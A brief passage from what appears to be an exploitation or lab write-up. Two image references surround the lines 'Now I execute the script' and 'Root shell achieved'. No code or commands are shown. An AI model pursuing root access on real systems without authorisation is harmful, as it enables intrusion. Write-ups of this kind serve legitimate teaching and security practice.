
Now I execute the script.

Root shell achieved.